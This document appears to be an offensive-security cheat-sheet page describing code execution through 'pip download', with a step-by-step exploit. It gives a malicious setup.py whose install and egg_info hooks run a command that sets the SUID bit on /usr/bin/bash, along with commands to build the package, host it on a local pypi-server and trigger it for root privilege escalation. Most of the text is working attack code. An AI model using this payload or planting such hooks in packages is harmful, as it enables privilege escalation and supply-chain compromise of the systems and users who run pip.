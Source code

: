 ```yaml
---
title: Pip Download Code Execution
description: Pip is a package management system written in Python. It can download custom Python package so we can create a malicious package to execute arbitrary code.
tags:
    - Linux
    - Privilege Escalation
refs:
    - https://medium.com/checkmarx-security/automatic-execution-of-code-upon-package-download-on-python-package-manager-cd6ed9e366a8
    - https://embracethered.com/blog/posts/2022/python-package-manager-install-and-download-vulnerability/
date: 2023-04-27
draft: false
---
```


## Exploitation

### 1. Create Malicious Python Package

Reference: [https://github.com/wunderwuzzi23/this_is_fine_wuzzi](https://github.com/wunderwuzzi23/this_is_fine_wuzzi)

Assume the package named **"exploitpy"**.  
We need to create **"setup.py"** in the project root, and **"__init__.py"**, **"main.py"** in src directory.

```bash
mkdir exploitpy
cd exploitpy
touch setup.py
mkdir src
touch src/__init__.py
echo 'print("hello")' > src/main.py
```

Below is the content of the **"setup.py"**.  
The arbitrary code is injected in the “RunCommand” method. It is executed when **`pip download`** command.

```py
# setup.py
from setuptools import setup, find_packages
from setuptools.command.install import install
from setuptools.command.egg_info import egg_info

def RunCommand():
	# Arbitrary code here!
	import os;os.system("chmod u+s /usr/bin/bash")

class RunEggInfoCommand(egg_info):
    def run(self):
        RunCommand()
        egg_info.run(self)


class RunInstallCommand(install):
    def run(self):
        RunCommand()
        install.run(self)

setup(
    name = "exploitpy",
    version = "0.0.1",
    license = "MIT",
    packages=find_packages(),
    cmdclass={
        'install' : RunInstallCommand,
        'egg_info': RunEggInfoCommand
    },
)
```

To package the project, run the following command in the project root.

```bash
# If you don't have modules below, install them first.
pip3 install setuptools
pip3 install build

# Build
python3 -m build
```

It generates **`.tar.gz`** file in **`dist`** folder.

### 2. Download the Package

We need to host the package using **`pypi-server`**.

```bash
# Install the module if you don't have it
pip3 install pypiserver

# Copy the tar.gz file into the "package" folder.
mkdir package
cp ./exploitpy/dist/exploitpy-0.0.1.tar.gz ./package
pypi-server run -v -p 8000 ./package
```

Then download the package by the following command.  
If the pip command can be executed as root, we can also escalate privileges.  
When downloading, arbitrary code, that we specified in setup.py, will be executed.

```bash
pip3 download exploitpy --index-url https://localhost:8000 -v
```
